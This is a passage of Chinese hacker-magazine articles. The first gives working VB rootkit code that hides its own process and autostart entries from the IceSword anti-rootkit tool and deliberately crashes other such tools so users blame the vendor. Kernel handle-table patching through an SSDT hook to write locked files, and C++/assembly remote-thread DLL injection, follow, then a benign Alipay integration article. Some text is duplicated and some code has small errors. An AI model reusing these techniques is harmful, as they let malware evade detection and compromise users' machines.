Public Function GetListviewItem(ByVal hWindow As Long, ByVal ProcessID As Long, ByVal pColumn As Long, ByVal pRow As Long) As String
    Dim Result As Long
    Dim myItem As LV_ITEMA
    Dim pHandle As Long
    Dim pStrBufferMemory As Long
    Dim pMyItemMemory As Long
    Dim strBuffer() As Byte
    Dim Index As Long
    Dim tmpString As String
    Dim strLength As Long

    ReDim strBuffer(MAX_LVMSTRING)

    pHandle = OpenProcess(PROCESS_VM_OPERATION Or PROCESS_VM_READ Or PROCESS_VM_WRITE, False, ProcessID)
    pStrBufferMemory = VirtualAllocEx(pHandle, 0, MAX_LVMSTRING, MEM_COMMIT, PAGE_READWRITE)

    myItem.mask = LVIF_TEXT
    myItem.iSubItem = pColumn
    myItem.pszText = pStrBufferMemory
    myItem.cchTextMax = MAX_LVMSTRING

    pMyItemMemory = VirtualAllocEx(pHandle, 0, Len(myItem), MEM_COMMIT, PAGE_READWRITE)
    Result = WriteProcessMemory(pHandle, pMyItemMemory, myItem, Len(myItem), 0)

    Result = SendMessage(hWindow, LVM_GETITEMTEXT, pRow, ByVal pMyItemMemory)
    Result = ReadProcessMemory(pHandle, pStrBufferMemory, strBuffer(0), MAX_LVMSTRING, 0)
    Result = ReadProcessMemory(pHandle, pMyItemMemory, myItem, Len(myItem), 0)

    tmpString = StrConv(strBuffer, vbUnicode)
    If InStr(tmpString, Chr$(0)) > 0 Then
        tmpString = Left$(tmpString, InStr(tmpString, Chr$(0)) - 1)
    End If
    tmpString = Trim(tmpString)

    Result = VirtualFreeEx(pHandle, pStrBufferMemory, 0, MEM_RELEASE)
    Result = VirtualFreeEx(pHandle, pMyItemMemory, 0, MEM_RELEASE)
    Result = CloseHandle(pHandle)

    If Len(tmpString) > 0 Then GetListviewItem = tmpString
End Function
```

这里使用到了冰刃的进程句柄，我们直接从 CSRSS 中复制过来就行了，不需要恢复其 Inline Hook。关于如何复制句柄及其原理的问题，《黑客防线》以前做过精彩讲述，这里就不赘述了。直接以网上的开源模块 mProcess.bas 使用。我们进行如下调用即可。

```vb
szFileName = GetListviewItem(lSwnd, lSpid, 0, 0)
Do While szFileName <> ""
    szFileName = GetListviewItem(lSwnd, lSpid, 0, i)
    AllFiles = AllFiles & szFileName & vbCrLf
    i = i + 1
Loop
```

首先取列表框的第 0 列和第 0 行，如果不为空，就一直取第 N 列和第 0 行，直到取得空值为止。接下来，看看取到的值有没有我们自己的进程，如果有，就把那行删除：

```vb
ss = Split(AllFiles, vbCrLf)
For i = 0 To UBound(ss)
    If LCase(ss(i)) = RkName Then
        ListView_DelItem lSwnd, i
        Exit For
    End If
Next
```

ListView_DelItem 的代码如下：

```vb
'函数名 ListView_DelItem
'输入 ByVal hwnd(Long) -> ListView控件句柄
'     ByVal i(Long) -> 行
'输出 无
'功能 描述删除其他程序ListView控件中的某行items
Public Function ListView_DelItem(ByVal hwnd As Long, ByVal i As Long) As Boolean
    ListView_DelItem = CBool(SendMessage(hwnd, LVM_DELETEITEM, i, 0))
End Function
```

之后直接发送消息即可。对自身在自启动项中的内容也如法炮制，不过要改成第 N 列和第 1 行。

```vb
i = 0
AllFiles = ""
szFileName = GetListviewItem(lSwnd, lSpid, 1, 0)
Do While szFileName <> ""
    szFileName = GetListviewItem(lSwnd, lSpid, 1, i)
    MsgBox szFileName
    AllFiles = AllFiles & szFileName & vbCrLf
    i = i + 1
Loop
```

```vb
ss = Split(AllFiles, vbCrLf)
For i = 0 To UBound(ss)
    If LCase(ss(i)) = RkName Then
        ListView_DelItem lSwnd, i
        Exit For
    End If
Next
```

把这些代码放到一个 Timer 中，这样的话，在冰刃的进程、自启动项、文件、注册表中就完全看不到我们自己的信息了。时间间隔定为 1000ms，此时单个进程的平均 CPU 占用率大概为 25%（Intel Core2 Duo T5800 + 2GB DDR2），这个占用率还是有点高。具体效果如图 1 和图 2 所示。


图1


图2

有人说，现在知名的 ARK 可不只冰刃，好像 XueTr 也挺出名吧？XueTr 不能复制进程句柄，不能发送消息，怎么办？答曰：XueTr 确实不能复制进程句柄，不能发送消息，可惜 XueTr 不能阻止消息钩子侵入，所以只要用 SetWindowHookEx 的方式把 DLL 注入到 XueTr 内即可。又有人说 ARK 这么多，能全部这么做吗？确实不能，但当注入的 DLL 检测到此进程是 ARK 后会马上执行代码“Call RtlMoveMemory(1,2,3)”，效果出奇地好，如图 3 所示。一般的用户会以为是软件设计者的问题，而不会认为是 RK 搞的鬼。

图3

还有较真的人说：诛剑和 RkU 用 `SetWindowHookEx` 注入是无效的，怎么把 DLL 注入进去？其实我早在去年 10 月写的《BASIC 语言实现 Ring3 全局 Inline Hook》中就提出了解决方法：写一个 Ring3 挂钩 `NtResumeThread` 的 DLL，注入到 `explorer.exe`（一般人都是用 `explorer.exe` 启动 ARK，不需要全局注入），当 `explorer.exe` 再次创建进程的时候，此 DLL 就会自动注入到新进程里去（不管是 GUI 进程还是 CUI 进程），即使那个进程在启动之前已经加载了驱动也不能阻止。这个方法是我见过的最好的 DLL 注入法了，目前还没有发现注入不进去的进程。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找。）

前置知识：VC  
关键字：编程、句柄、Hook

##### 让句柄可写

## ——修改正在被使用文件的方法探索

文/图 小废（英飞）

这段时间在做一个项目，需要对第三方使用中的文件进行修改，然后就进行了相应的探索，总结之后得到了本文。之前研究原理的时候，发现了一个叫做 unlocker 的国外免费软件，网址是 http://ccollomb.free.fr/unlocker，目前官网最新版本是 1.8.9。它能够实现重命名、文件移动和强制删除。对它的原理，网上有个说法是：得到进程打开的所有句柄信息后，用 `DuplicateHandle` 复制 Handle 到本地进程，然后把文件句柄发给驱动 `UnlockerDriver5.sys` 进行名字查询，sys 将返回文件句柄对应的内核文件对象的完整名字，然后再进行处理，至于怎么处理没有详细说明。由于 unlocker 只具有重命名、文件移动和强制删除的功能，不满足我们的要求，所以在这里就不再深入研究。

为什么文件在被其他进程打开以后我们不能直接写入呢？初步猜测是在产生文件打开的过程中系统设置了某个值，让它不可以以写方式打开。在 `NtCreateFile` 和 `NtOpenFile` 函数中就有参数设置文件的打开方式，大家可以自己查看 MSDN。

下面先让我们来看一个结构。打开 WinDbg，输入 `dt _EPROCESS` 可以看到在 `0xc4` 的偏移处有个指向 `_HANDLE_TABLE` 结构的一个指针，如图 1 所示。当然这个偏移是 Windows XP 下的，其他版本的偏移大家可以自己看一下。

图1

我们再来看一下 `dt _HANDLE_TABLE`，如图 2 所示。

```txt
lkd> dt _handle_table
nt!_HANDLE_TABLE
 +0x000 TableCode            : Uint4B
 +0x004 QuotaProcess         : Ptr32 _EPROCESS
 +0x008 UniqueProcessId      : Ptr32 Void
 +0x00c HandleTableLock      : [4] _EX_PUSH_LOCK
 +0x01c HandleTableList      : _LIST_ENTRY
 +0x024 HandleContentionEvent: _EX_PUSH_LOCK
 +0x028 DebugInfo            : Ptr32 _HANDLE_TRACE_DEBUG_INFO
 +0x02c ExtraInfoPages       : Int4B
 +0x030 FirstFree            : Uint4B
 +0x034 LastFree             : Uint4B
 +0x038 NextHandleNeedingPool: Uint4B
 +0x03c HandleCount          : Int4B
 +0x040 Flags                : Uint4B
 +0x040 StrictFIFO           : Pos 0, 1 Bit
```

图2

下面是 `_HANDLE_TABLE` 结构的 C 代码：

```c
typedef struct _HANDLE_TABLE {
    ULONG TableCode;
    PEPROCESS QuotaProcess;
    PVOID UniqueProcessId;
    EX_PUSH_LOCK HandleTableLock[4];
    LIST_ENTRY HandleTableList;
    EX_PUSH_LOCK HandleContentionEvent;
    PHANDLE_TRACE_DEBUG_INFO DebugInfo;
    LONG ExtraInfoPages;
    ULONG FirstFree;
    ULONG LastFree;
    ULONG NextHandleNeedingPool;
    LONG HandleCount;
    LONG Flags;
    UCHAR StrictFIFO;
} HANDLE_TABLE, *PHANDLE_TABLE;
```

##### HANDLE_TABLE 说明

进程在创建过程中，Windows 会为其创建一个 EPROCESS 结构（进程控制块）。HANDLE_TABLE 是一个进程的句柄表，句柄表分为三层；通过句柄表可以找到该进程打开的所有对象。程序中获得的各种句柄就是对象在句柄表中的索引，通过句柄可对文件等对象进行操作。

文件对象在句柄表中的索引，通过句柄就可以在句柄表中找到相应文件对象的指针。通过 HANDLE_TABLE 结构我们可以得到 HANDLE_TABLE_ENTRY 结构，而在 HANDLE_TABLE_ENTRY 结构中有一个让我们感兴趣的东西。我们先来看一下 HANDLE_TABLE_ENTRY 结构，还是使用 WinDbg 查看，如图 3 所示。

```txt
lkd> dt _handle_table_entry
nt!_HANDLE_TABLE_ENTRY
 +0x000 Object               : Ptr32 Void
 +0x000 ObAttributes         : Uint4B
 +0x000 InfoTable            : Ptr32 _HANDLE_TABLE_ENTRY_INFO
 +0x000 Value                : Uint4B
 +0x004 GrantedAccess        : Uint4B
 +0x004 GrantedAccessIndex   : Uint2B
 +0x006 CreatorBackTraceIndex: Uint2B
 +0x004 NextFreeTableEntry   : Int4B
```

图3

在 `0x004` 偏移处，结构体包含有一个 `GrantedAccess` 域。修改 `GrantedAccess` 就可以设置文件的访问权限。一般文件在被其他进程打开时，通常有读权限（`GENERIC_READ`）；若设置为写（`GENERIC_WRITE`）或者 `GENERIC_ALL`，那么就可以在文件被其他进程打开时改写其磁盘数据。

我们还原 HANDLE_TABLE_ENTRY 结构的 C 代码如下：

```c
typedef struct _HANDLE_TABLE_ENTRY {
    union {
        PVOID Object;
        ULONG ObAttributes;
        ULONG InfoTable;
        ULONG Value;
    };
    union {
        ULONG GrantedAccess;
        struct {
            USHORT GrantedAccessIndex;
            USHORT CreatorBackTraceIndex;
        };
        LONG NextFreeTableEntry;
    };
} HANDLE_TABLE_ENTRY, *PHANDLE_TABLE_ENTRY;
```

## 深得 HANDLE_TABLE_ENTRY

为了得到 `HANDLE_TABLE_ENTRY`，我们使用 WRK 里的一个函数：`ExpLookupHandleTableEntry(IN PHANDLE_TABLE, IN EXHANDLE)`。具体函数就不贴出来了，大家可以自己查看 WRK。之前我们说过句柄表分为三层，在 `ExpLookupHandleTableEntry` 函数里就有很好的体现，不同的层次定位 HANDLE_TABLE_ENTRY 的方式各不相同，Windows 2000 和 XP 也是不同的。函数入口参数有个 EXHANDLE 结构，其原型如下：

```c
typedef struct _EXHANDLE {
    union {
        struct {
            ULONG TagBits : 2;
            ULONG Index   : 30;
        };
        HANDLE GenericHandleOverlay;
        #define HANDLE_VALUE_INC 4   // 与2000不同
        ULONG_PTR Value;             // 与2000不同
    };
} EXHANDLE, *PEXHANDLE;
```

对 EXHANDLE 的赋值可用如下语句，Handle 在实际应用中是我们获得的句柄。

```c
HANDLE Handle;
EXHANDLE ExHandle;
ExHandle.GenericHandleOverlay = Handle;
```

##### 具体实现

作为示例，本文 SSDT Hook 了 `NtCreateSection` 函数，在函数被调用时判断当前要打开文件是否为我们的目标文件，如果是则获得 HANDLE_TABLE_ENTRY，修改 `GrantedAccess` 域，再使用 `ZwWriteFile` 函数写文件，读文件可使用 `ZwReadFile` 函数。实现代码如下：

```c
BOOLEAN SetGrantedAccess(
    IN HANDLE Handle,
    IN ACCESS_MASK GrantedAccess
)
{
    ...
}
```

```c
ULONG ObjectTableOffset = 0xc4;
// 直接使用了硬偏移
PEPROCESS pEProcess = PsGetCurrentProcess();
PHANDLE_TABLE ObjectTable =
    *(PHANDLE_TABLE *)((ULONG)pEProcess + ObjectTableOffset);
PHANDLE_TABLE_ENTRY Entry;
EXHANDLE ExHandle;
ExHandle.GenericHandleOverlay = Handle;
Entry = ExpLookupHandleTableEntry(ObjectTable, ExHandle);

if (Entry) {
    KdPrint(("UN GrantedAccess %x", Entry->GrantedAccess));
    Entry->GrantedAccess = GrantedAccess;
    KdPrint(("MO GrantedAccess %x", Entry->GrantedAccess));
}
return Entry > 0;
```

在 Hook `NtCreateSection` 中调用 `SetGrantedAccess()`，再加上一些处理函数即可。我们使用以下代码测试：

```c
NTSTATUS rc;
HANDLE hRead;

rc = ZwWriteFile(hRead, NULL, NULL, NULL, &ioStatus,
                 pBufferWriteIntoRVA,
                 sizeof(ULONG), (PLARGE_INTEGER)&RVA, NULL);
DbgPrint("修改前,%x", rc);
// 未用修改GrantedAccess前使用ZwWriteFile的返回值

SetHandleAccess(hRead, GrantedAccess);

rc = ZwWriteFile(hRead, NULL, NULL, NULL, &ioStatus,
                 pBufferWriteIntoRVA,
                 sizeof(ULONG), (PLARGE_INTEGER)&RVA, NULL);
DbgPrint("修改后,%x", rc);
// 打印修改GrantedAccess后，使用ZwWriteFile的返回值
```

结果如图 4 所示，我们可以看到修改前，`ZwWriteFile` 返回值为 `0xC0000022`，即 `STATUS_ACCESS_DENIED`；修改后，`ZwWriteFile` 返回值为 `0`，即 `STATUS_SUCCESS`。

图4

##### 小结

以上就是修改 `GrantedAccess` 值让句柄可写的原理。做 Windows 内核终究不如 *NIX 下痛快，总是有种犹抱琵琶半遮面的感觉。尤其是在资料比较少的情况下，好多东西都要靠自己一步步地测试，不过成功之后的喜悦绝对是巨大的。

前置知识：VC、汇编  
关键词：C++、汇编、DLL 注入

#### 在 C++ 中嵌入汇编

#### 实现 DLL 注入剖析

文／stormxp

##### 高级语言的编程过程

实现 DLL 注入的方法已经很多了，也都比较成熟，用得最多的方法是通过远程线程进行线程注入，然后导入 DLL 文件。远程线程里有两个关键技术需要解决，一个是全局变量和字符串的存取问题，另一个是地址重定位问题。如果用汇编来实现这两个问题是很简单的，但在高级语言中就显得有点笨拙了。以前有一篇用 C++ 来实现这个技术的文章，但那篇文章用了一个变通的方法，即用局部变量来代替全局变量，在建立远程线程的时候把变量传给远程线程。这个方法可以说达到了“一箭双雕”的目的，因为局部变量是存在于堆栈中的，不存在绝对地址的调用问题，对局部变量的访问也就不存在地址重定位问题。但回头想想，那个方法还是没有能够突破 C++ 的这些限制。笔者在参考了罗云彬的《Windows 环境下 32 位汇编语言程序设计》中线程隐藏那一章后，提出了在 C++ 中实现远程线程的方法。因为本文涉及很多汇编方面的知识，所以我相信本文的意义不仅仅是提出一种 DLL 注入的方法，更重要的是对编程能力的训练和对操作系统底层理解的加深。

C++ 中的变量分为以下几个情况：全局变量、字符串和局部变量。对于变量，我们在用 C++ 编程中定义后直接调用就可以，从来不用考虑这些变量在生成的二进制文件装入内存后是怎么样存储的；但在进行远程线程的操作时，这些都是必须考虑的。实际上在编译时，编译器对变量和代码有着不同的处理：全局变量和字符串被放在了数据段中，局部变量存放于堆栈中，代码位于代码段中，而数据段、堆栈区、代码段在内存中是独立存放的，它们的地址并不连续。在编译时，对全局变量和字符串的存取被修改为对绝对地址的调用，这个绝对地址是编译时确定的，在程序运行时由操作系统负责在该地址处分配内存并进行初始化。而编译器对局部变量的处理是将其修改为对堆栈的操作，这样局部变量的地址实际上依赖于栈寄存器，栈寄存器不同，其绝对地址也不同。

- 将需要传递的参数反向压入堆栈。
- 用 `call` 语句调用函数地址，执行该函数。
- 函数执行完成后恢复堆栈的平衡。

在上面三步的第二步中又可以分为几个小步：

- 把本句 `call` 指令的下一条指令地址压入堆栈。
- 转到函数地址执行。
- 当遇到 `ret` 之类的返回指令时从栈中弹出返回地址。
- 转到弹出的地址（也就是 `call` 语句的下一句指令）继续执行。

现在拿 `LoadLibrary` 来举个例子：该函数是 Windows 中的一个 API，位于 `Kernel32.dll` 中，其默认装载地址为 `7C801D7B`。因为 `Kernel32.dll` 是常驻内存的，所以在一般情况下内存中的这个地址就是 `LoadLibrary` 的入口地址，但这不是绝对的。在 C++ 中要调用这个函数我们可以这样写：

```c
LoadLibrary("Dll.dll");
```

在汇编中就得这样写了：

```asm
Push    字符串 "DLL.dll" 在内存中的地址（通常这个地址位于数据区）
Call    LoadLibrary 的入口地址（如 7C801D7B）
```

因为 Windows 中的 API 皆为标准调用约定，所以恢复堆栈的工作就由被调用的函数完成。当然在 C++ 中自定义的函数一般为 C 调用约定，如果调用自己写的函数，你就要考虑恢复堆栈的问题了。最后说明一点，在汇编中调用 API 的返回值一般会放在寄存器 `eax` 中，所以要检测函数是否调用成功只要检测 `eax` 的值就可以了。

##### 高级语言和远程线程遇到的问题

首先我们来回想一下远程线程的实现过程：

- 在程序中的某个地方写出远程线程代码。
- 用 `WriteProcessMemory` 将上步写的远程线程代码复制到目标进程。
- 用 `CreateRemoteThread` 建立远程线程，并使其运行。

现在仔细分析一下，不妨假设本进程为进程 A，要注入的宿主进程为进程 B。第一步中所写的远程线程代码位于 A 中，此时用到的全局变量和字符串在编译时生成的绝对地址是按进程 A 确定的，这些地址位于进程 A 的数据区。

复制代码时，我们把代码区的数据完整地复制到了进程 B 中，而数据区并没有被复制。被复制过来的代码要运行时同样要访问那些全局变量和字符串的绝对地址，在进程 B 中那个地址可能已经被其他进程占用，也可能是一些随机数据，这样会造成访问出错。在汇编语言中可以在代码区中申请变量空间，在复制代码时这些变量也相应被复制过去，这样就不存在数据区绝对地址访问的问题。但 C++ 中是不允许在代码区中申请变量空间的，所以如何让变量随代码一起被复制是第一个需要解决的问题。

其二，假如我们已经在代码区中成功存放了变量，但编译器在编译时把对这个变量的存取修改为绝对地址的存取，这个地址同样是位于进程 A 中的。在进程 B 中申请内存空间时，这个空间的地址是不确定的，这样代码被复制到进程 B 中后对这个地址的存取还是会出错；其原理和上面是一样的。所以这就需要我们对这些变量进行地址重定位。

##### 远程线程代码的实现

因为我们的目的就是要把自己的 DLL 文件导入到目标进程中，所以远程线程的代码相对来说比较简单，就是调用 `LoadLibrary`，也就是上面举的例子中的代码。我们要在代码中保存的变量有两个：一个是 `LoadLibrary` 的地址（虽说这个地址基本上是固定的，但为了保险起见我们还是动态获取并将其保存，否则就不需要这个变量了），另一个是保存 DLL 文件名的字符串。为了在写远程线程代码时，在代码区中为这两个变量分配内存，我们可以用空指令给这两个变量占位，复制到进程 B 中后再把它修改为真正的值。如：API 的地址占 4 个字节，汇编中一个空指令 `nop` 占 1 个字节，所以我们就用 4 个 `nop` 来为其“申请”空间；我们的 DLL 文件名为 “Dll.dll”，占 7 个字节，考虑到字符串要以 `0` 作为结尾标记，共占 8 个字节，所以我们用 8 个 `nop` 来“申请”空间。

下一个问题是解决地址重定位问题，这个技术在病毒、木马等诸多方面有着广泛的应用。当然这个技术并不是由笔者实现，笔者也是通过学习得到的，在这里也简要介绍一下实现的原理。先看下面这段代码：```asm
1  call    relocall
2  relocall:
3  pop     ebx
4  sub     ebx, offset relocall
```

```asm
// ******** 调用 LoadLibrary ********
// 1. 压入 LoadLibrary 参数（动态链接库名）
mov  eax, ebx
add  eax, offset LibraryName
push eax
// 2. 调用 LoadLibrary
mov  eax, ebx
add  eax, offset LoadLibraryAddr
mov  eax, [eax]
call eax
// 3. 检测是否成功
or   eax, eax
jnz  NEXT1
ret
NEXT1:
// 4. 释放动态链接库
push eax
mov  eax, ebx
add  eax, offset FreeLibraryAddr
mov  eax, [eax]
call eax
ret
```

现在细细分析一下。第一句执行时首先会把第三句运行时的地址（注意是运行时的地址，不是绝对地址，这个地址在进程 A 中与在进程 B 中是不一样的）压入堆栈，然后执行第三句，而第三句又把该地址弹出到寄存器 ebx。第四句的 `offset relocall` 在编译时被修改为进程 A 中第三句的绝对地址，如果现在该段代码运行于进程 B 中，第四句相减执行完后 ebx 并不是 0，而是这段代码在进程 A 中的地址偏移与在进程 B 中地址偏移之差。得到这个差值后，在进程 B 中每当访问含有绝对地址的变量时只要加上这个差值就可以得到正确地址。好了，关键技术实现后远程线程的代码如下：

```asm
REMOTE_THREAD_BEGIN:
_asm {
// LoadLibrary 函数地址占位
LoadLibraryAddr:
  nop
  nop
  nop
  nop
// FreeLibrary 函数地址占位
FreeLibraryAddr:
  nop
  nop
  nop
  nop
// 动态链接库名占位
LibraryName:
  nop
  nop
  nop
  ...
// 代码开始的真正位置
REMOTE_THREAD_CODE:
// 实现地址重定位，ebx 保存差值
call relocall
relocall:
  pop ebx
  sub ebx, offset relocall
}
```

因为 DLL 文件在第一次被导入时会自动执行 DllMain 中的代码，所以我们把 DLL 中自己写的代码放在这个函数中，这样只要 DLL 文件被导入就可以执行代码了。如果不这样，我们还必须去获取 DLL 文件中的函数地址，那样会加大工作量，当然如果你不怕麻烦也可以去试试。

##### 远程代码的实现

其实远程线程代码实现后，本节的技术含量就相对低得多了。本段代码主要实现以下几个功能：

- 1. 在宿主进程中申请代码空间；
- 2. 把远程线程的代码复制到宿主进程中；
- 3. 修正远程线程变量的值；
- 4. 创建远程线程，执行远程代码。

## 关键代码如下：

```cpp
// ******1. 在宿主进程中申请代码空间******
// ******1.1 通过进程 ID 打开进程句柄，并获得进程句柄******
HANDLE hSelectedProcHandle;
// 保存宿主进程句柄
hSelectedProcHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, nSelectedThreadId);

// ******1.2 得到远程线程代码长度（申请空间大小）******
int nRemoteThreadCodeLength;
asm {
    mov eax, offset REMOTE_THREAD_END
    mov ebx, offset REMOTE_THREAD_BEGIN
    sub eax, ebx
    mov nRemoteThreadCodeLength, eax
}

// ******1.3 在宿主进程中申请空间******
LPVOID pRemoteThreadAddr;
pRemoteThreadAddr = VirtualAllocEx(hSelectedProcHandle, NULL,
    nRemoteThreadCodeLength, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

// ******2. 把远程线程代码复制到宿主进程******
// ******2.1 得到本进程中远程线程代码起始地址******
LPVOID pRemoteThreadCodeBuf;
DWORD nWrittenNum, nSuccess;
asm mov eax, offset REMOTE_THREAD_BEGIN
asm mov pRemoteThreadCodeBuf, eax

// ******2.2 向宿主进程中复制代码******
nSuccess = WriteProcessMemory(hSelectedProcHandle,
    pRemoteThreadAddr,
    pRemoteThreadCodeBuf,
    nRemoteThreadCodeLength,
    &nWrittenNum);

// ******3. 修正远程线程中变量的值******
// ******3.1 首先获取两个关键函数地址******
HMODULE hKernel32;
hKernel32 = LoadLibrary("Kernel32.dll");
LPVOID pLoadLibrary, pFreeLibrary;
pLoadLibrary = (LPVOID)GetProcAddress(hKernel32, "LoadLibraryA");
pFreeLibrary = (LPVOID)GetProcAddress(hKernel32, "FreeLibrary");

// ******3.2 修正代码******
PBYTE pRemoteAddrMove;
pRemoteAddrMove = (PBYTE)pRemoteThreadAddr;

// ******3.2.1 修正 LoadLibrary 地址******
nSuccess = WriteProcessMemory(hSelectedProcHandle,
    pRemoteAddrMove,
    &pLoadLibrary,
    4,
    &nWrittenNum);

// ******3.2.2 修正 FreeLibrary 地址******
pRemoteAddrMove += 4;
nSuccess = WriteProcessMemory(hSelectedProcHandle,
    pRemoteAddrMove,
    &pFreeLibrary,
    4,
    &nWrittenNum);

// ******3.2.3 修正动态链接库名称******
char szDllName[8] = "Dlldll";
pRemoteAddrMove += 4;
nSuccess = WriteProcessMemory(hSelectedProcHandle,
    pRemoteAddrMove,
    szDllName,
    8,
    &nWrittenNum);

// ******4. 创建远程线程，使远程代码执行******
// ******4.1 把指针移到远程线程代码开始处******
pRemoteAddrMove += 8;
HANDLE hRemoteThreadHandle;

// ******4.2 定义远程线程函数类型******
typedef unsigned long (WINAPI *stRemoteThreadProc)(LPVOID);
stRemoteThreadProc pRemoteThreadProc;

// ******4.3 把入口地址赋给声明的函数******
pRemoteThreadProc = (stRemoteThreadProc)pRemoteAddrMove;

// ******4.4 创建远程线程******
hRemoteThreadHandle = CreateRemoteThread(hSelectedProcHandle,
    NULL,
    0,
    pRemoteThreadProc,
    0,
    0,
    NULL);
```

因为本模块主要是调用一些 API，这些 API 去查下资料就可以知道其用法，所以这里就不做详细介绍了。所附源代码为一个基于对话框的 MFC 程序，里面还有一个获取当前系统进程的模块，这里就不介绍其实现过程了。另外还附带一个简单的 DLL 工程作为测试，在运行程序时一定要把 DLL 文件放到系统搜索路径中，否则会因找不到 DLL 文件而失败。

至此所有功能模块已经介绍完毕，总体来说，这个方法实现了我们的预期功能，它的不足之处是实现起来比较繁琐，但从学习的角度来说不失为一个好方法。若文中有不到之处，还请各位高手们批评指正。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找。）

- 前置知识：C#
- 关键词：编程、支付宝

#### 支付宝转接安全应用全接触


文／图 Winbo

随着电子商务的日益成熟，网络转账的安全要求越来越高，支付宝就是在这种背景下发展起来的。对于大型网上购物系统而言，除了能够让会员选择货到付款结账方式外，还应该提供一些更方便快捷的网上支付方式；对于中小型网络商店而言，如果没有足够的实力提供会员直接在网站中建立现金账户的功能，就可以将订单信息转接到支付宝，让会员从支付宝付款。当然，用户也可以将支付宝作为一种方便快捷的支付方式，从而给客户提供更多可选的支付方式。不过，谈到“钱”和“网络”，自然就会联想到“安全”的问题。如何在网络开发中合理利用支付宝，就成为了当前的一个重要话题。

（1）请求/响应交互模式。这是最常用的一种交互模式。在这种模式下，商户系统向支付宝系统发送请求数据，并“同步”等待支付宝系统处理完毕之后返回的响应数据。请求/响应模式根据页面流程，可分为系统调用和页面跳转。而同步就是指商户系统在等待支付宝自身的处理结束，并调用商户系统的接口文件，或买家需要再回到商户网站进行操作，如图 1 所示。

##### 支付宝安全源代码剖析

支付宝转接的原理很简单，实际上就是通过浏览器上传参数到支付网关，支付网关获得浏览器参数并进行内部解析，浏览器上传的参数都经过了加密处理。商户系统与支付宝之间有两种交互模式，分别是请求/响应交互模式和主动通知交互模式。


（2）主动通知交互模式。买家从商户网站转跳到支付宝网站，在支付宝网站完成最后操作，买家不需要再回到商户网站。支付宝系统会将信息采用主动通知的方式提交给商户系统。这种交互模式如果需要异步返回结果，商户网站必须传递参数给支付宝网站，支付宝会将相关的消息传递到指定的消息处理程序。

目前，申请支付宝接口主要有两种方式。第一种为免费接口，淘宝抽取 2% 的手续费；第二种为付费接口，例如 600 元允许 48000 元交易金额的配额等。在免费接口中，又分为标准双接口交易类型和纯即时到账交易。这两种支付方式中，前者为淘宝担保交易+即时到账交易，而后者仅仅为即时到账交易。

###### 小提示

**支付宝接口的区别**：支付宝接口包括标准双接口和纯即时到账接口。标准双接口又称中介担保接口，包括担保交易和即时到账方式；纯即时到账无需买家确认，资金直接到卖家账户。

支付接口申请成功后，会得到两个重要的参数：支付宝安全校验码和合作伙伴 ID，这两个参数起到了支付是否成功的重要作用。如图 2 所示是一个具体的步骤演示。


- 1. 第 1 步，网上购物系统与支付宝公司签订合作协议，以确保从本购物网站上传到支付宝网站上的订单信息能被正确接收。
- 2. 第 2 步，当会员于购物网站上买下一系列商品并选择支付宝付款方式后，购物系统即将会员购物的订单信息转发到支付宝，网站页面也会转到支付宝的付款页面。此时，支付宝页面会发送一个验证信息到本网站，以确认支付宝正确收到订单信息。

购物的订单信息转发到支付宝，网站页面也会转到支付宝的付款页面。此时，支付宝页面会发送一个验证信息到本网站，以确认支付宝正确收到订单信息。

###### 小提示

通知页面是传递给支付宝时的 `notify_url` 参数所对应的页面文件。返回页面是传递给支付宝时的 `return_url` 参数所对应的页面文件。

第 3 步：会员在支付宝网站完成付款后，网站页面会重新跳回购物网站，同时支付宝会将已付款的订单信息发回本网站以对本购物网站的数据库进行必要的修改操作。另外，还需要向支付宝网站发送一个返回信息，告知支付宝本系统已正确收到付款完毕的订单信息并且已经完成对数据的处理操作。

##### 支付宝源码实现过程分析

在与支付宝签订完合同后，就可以使用合同中的商家 ID、商家支付宝账号和安全校验码，整合支付宝到自己的电子商务系统中了。下面以一个典型的电子商务网站开发为例，对支付宝操作的一些关键代码进行分析。首先，需要建立一个通知页面（CvicseAlipayNotify.aspx）和一个返回页面（CvicseAlipayReturn.aspx），用于接收并验证从支付宝返回的信息，并对数据库中相应的订单信息做修改处理操作。

- 1. 通知页面和返回页面的关键代码

下面对通知页面 CvicseAlipayNotify.aspx 的后台代码进行分析。通知页面是传递给支付宝时的 `notify_url` 参数所对应的页面文件。通知页面就是被支付宝调用才能启动的，它获得参数的方法是用 POST 方式获取，该页面的 HTML 页面中必须是空白，无任何 HTML 标签，无任何空格，不允许做页面跳转。

第 1 步，从配置文件中取出商家 ID、商家支付宝账号和安全校验码，这里有一些已经定义的变量。

```csharp
01: string alipayNotifyURL = "https://www.alipay.com/cooperate/gateway.do?";
02: string partner = ConfigurationManager.AppSettings["partnerAlipay"].ToString();
03: string key = ConfigurationManager.AppSettings["keyAlipay"].ToString();
04: string input_charset = ConfigurationManager.AppSettings["input_charsetAlipay"].ToString();
05: alipayNotifyURL = alipayNotifyURL + "service=notify_verify" + "&partner=" + partner + "&notify_id=" + Request.Form["notify_id"];
06: string responseTxt = Alipay.Get_Http(alipayNotifyURL, 120000);
07: int i;
08: NameValueCollection coll;
09: coll = Request.Form;
10: String[] requestarr = coll.AllKeys;
11: string[] Sortedstr = Alipay.BubbleSort(requestarr);
```

下面对其中的一些典型代码进行详细分析。

- 1. 第 1 行，定义支付网关，支付网关把订单信息传送给支付宝服务器，服务器做一些付款处理。
- 2. 第 2 行，从配置文件读取合作伙伴 ID（partner），用于唯一标识商户。
- 3. 第 3 行，从配置文件读取商户交易安全校验码 key，用于数据校验与防伪造。
- 4. 第 4 行，从配置文件读取编码格式（如 UTF-8），接口参数传输必须使用。
- 5. 第 5 行，组装通知 URL，用于向支付宝服务器确认订单信息。
- 6. 第 6 行，获取支付宝 ATN 返回结果，true 表示正确订单信息，false 表示无效。
- 7. 第 8 行，定义 NameValueCollection 变量，用于存放表单中的键值。
- 8. 第 9 行，加载表单所有变量并赋值给 coll。
- 9. 第 10 行，获取表单所有变量并放入数组。
- 10. 第 11 行，把参数变量名集合 requestarr 排序（如 service、partner、notify_id 等按 a-z 排序）。

第 2 步：构造待经过 MD5 加密的字符串并对其加密。鉴于数据传输过程中的真实性和完整性，需要对数据进行数字签名，并在接收签名数据后进行签名校验。MD5 签名算法是常见签名算法之一。

```csharp
string mysign = Alipay.GetMD5(prestr.ToString(), input_charset);
```

第 3 步：验证支付宝发过来的消息，看签名是否正确。如果正确则表示该页面已被支付宝服务器成功调用。
